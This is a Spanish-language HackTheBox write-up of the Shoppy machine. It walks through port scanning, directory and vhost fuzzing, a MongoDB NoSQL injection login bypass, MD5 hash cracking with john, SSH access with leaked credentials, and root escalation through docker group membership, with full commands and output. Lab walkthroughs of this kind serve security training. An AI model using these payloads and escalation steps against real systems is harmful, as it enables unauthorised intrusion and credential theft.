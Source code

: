 ```yaml
---
title: Shoppy WriteUp
author: H4ckerLite 
date: 2023-01-14 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [hackthebox, writeup, no sql,]
pin: true
image:
  path: ../../assets/img/commons/shoppy-writeup/Shoppy.png 
  alt: Shoppy WriteUp
---
```


Les explicaré comó comprometer la máquina [Shoppy](https://app.hackthebox.com/machines/496) de HackTheBox. En esta máquina nos enfretaremos a un `NoSQLi` de `MongoDB` y ganaremos acceso al sistema gracias a una contraseña filtrada y para la escalada nos vamos a aprovechar del grupo **Docker**.

## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.

``````bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.180 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-15 11:59 -04
Initiating SYN Stealth Scan at 11:59
Scanning 10.10.11.180 [65535 ports]
Discovered open port 80/tcp on 10.10.11.180
Discovered open port 22/tcp on 10.10.11.180
Discovered open port 9093/tcp on 10.10.11.180
Completed SYN Stealth Scan at 12:00, 15.14s elapsed (65535 total ports)
Nmap scan report for 10.10.11.180
Host is up, received user-set (0.16s latency).
Scanned at 2023-01-15 11:59:53 -04 for 16s
Not shown: 65368 closed tcp ports (reset), 164 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.33 seconds
           Raw packets sent: 74269 (3.268MB) | Rcvd: 73540 (2.942MB)
``````


Nos percatamos que tiene el **SSH** abierto y el puerto 80 que corresponde al **HTTP**, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para solucionarlo hacemos lo siguiente:

```bash
echo "10.10.11.180       shoppy.htb" | tee -a /etc/hosts
```

Ahora debemos ver una web con una cuenta regresiva, nada importante

## Enumeración

Enumerando directorios con **WFUZZ** nos encontramos lo siguiente.
***Nota: Debes tener clonado el repositorio de*** **SecList**
```bash
❯ wfuzz -c --hc=404 -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://shoppy.htb/FUZZ  2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000053:   200        25 L     62 W       1074 Ch     "login"                                                                                                                
000000016:   301        10 L     16 W       179 Ch      "images"                                                                                                               
000000291:   301        10 L     16 W       179 Ch      "assets"                                                                                                               
000000259:   302        0 L      4 W        28 Ch       "admin"   
```
Nos encontramos con **/login** , intentamos acceder pero esta protegido por un login, podemos probar con una injección **SQL** y ver si es vulnerable a este tipo de ataque.

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login.png' | relative_url }}){: .center-image }
_Login Shoppy_

Introducimos una comilla al final del usuario para ver si la query de la consulta es vulnerable a SQL injection, notamos que el servidor se demora en responder, por lo que confirmamos que es vulnerble.

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login3.png' | relative_url }}){: .center-image }
_Login Shoppy_
Podemos seguir probando tipicas SQL injection, pero al final ninguna funcionará.
```bash
'
'-- -
' or '1'='1
' or '1'='1'-- -
```
Pero vemos que ninguna funciona, eso nos da una pista que debemos probar con una injección NoSQL, una base de las bases de datos mas usadas son **MongoDB**, buscando payloads en **Google** encontramos estos blogs [MongoDB SQL injection](https://nullsweep.com/a-nosql-injection-primer-with-mongo/) y  este otro blog [No SQl injection](https://nullsweep.com/nosql-injection-cheatsheet/).

Podemos probar `admin'||'1==1` y poner cualquier contraseña:

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login1.png' | relative_url }}){: .center-image }
_Bypass Login_

Bingo!!! Ganamos acceso como administrador, en el buscador podemos repetir la injección.
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login2.png' | relative_url }}){: .center-image }

Nos sale una opción para descargar un archivo `JSON`, cuando vemos el archivo vemos 2 usuarios y sus respectivos hashes. Creamos un archivo con los hashes y lo intentaremos crakear con john

```bash
echo "admin:23c6877d9e2b564ef8b32c3a23de27b2" > hashes
echo "josh:6ebcea65320589ca4f2f1ce039975995" >> hashes
❯ john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)
1g 0:00:00:02 DONE (2023-01-15 12:44) 0.4444g/s 6374Kp/s 6374Kc/s 6735KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```
Tenemos una contraseña, podemos buscar por subdominios a ver que nos encontramos

```bash
❯ gobuster vhost  -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb/ -t 200
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb/
[+] Method:       GET
[+] Threads:      200
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/15 12:48:41 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
Progress: 52985 / 100001 (52.98%)    
```

Tenemos un subdominio, la misma historia lo añadimos en el `/etc/hosts`.

Al entrar en el web nos encontramos con esto
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/josh.png' | relative_url }}){: .center-image }
_Login Mattermost_

Viendo las conversaciones nos dan un usuario y sus credenciales para el *SSH*, nos conectamos.
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/matt.png' | relative_url }}){: .center-image }
_Information leaked_

```bash
❯ ssh jaeger@10.10.11.180
jaeger@10.10.11.180's password: Sh0ppyBest@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jan 15 11:02:26 2023 from 10.10.14.26
manpath: can't set the locale; make sure $LC_* and $LANG are correct
jaeger@shoppy:~$ export TERM=xterm
jaeger@shoppy:~$ 
```
Una vez dentro podemos ver si tenemos algún privilegio asignado a sudo, vemos que podemos ejecutar como el usuario `deploy` un ejecutable.

## Enumeración del sistema

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$ 

```
Intentamos ejecutar el comando
```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/passw*
Welcome to Josh password manager!
Please enter your master password: Password
Access denied! This incident will be reported !
jaeger@shoppy:~$ 
```
La contraseña no es correcta, jugando con `XXD` podemos ver que la contraseña se filtra, bingo ya descubrimos la contraseña, ahora lo ejecutamos como el usuario deploy


![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/xxd.png' | relative_url }}){: .center-image }
_Password-Manager_


```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:~$ 
```
Podemos migrar al usuario *Deploy* .

```bash
jaeger@shoppy:~$ su deploy
Password: Deploying@pp!
$ bash
deploy@shoppy:/home/jaeger$ 
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:/home/jaeger$ 

 ```

## Escalada de privilegios
Pertenecemos al grupo `docker`  mirando [GtfObins](https://gtfobins.github.io/gtfobins/docker/#shell) podemos ver que podemos abusar del grupo **docker**
Ejecutamos el comando nos da una shell como root.

 ```bash
 deploy@shoppy:/home/jaeger$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
root@3ea87a82734f:/# 
 ```
Ganamos acceso root, ya rooteamos la máquina ahora podemos leer las  flags respectivas para cada usuario.

```bash
root@3ea87a82734f:~# cat root.txt 
3d4c1a0477********************66
root@3ea87a82734f:~# cat /home/jaeger/user.txt 
3d97fe0060********************67
root@3ea87a82734f:~# 
```
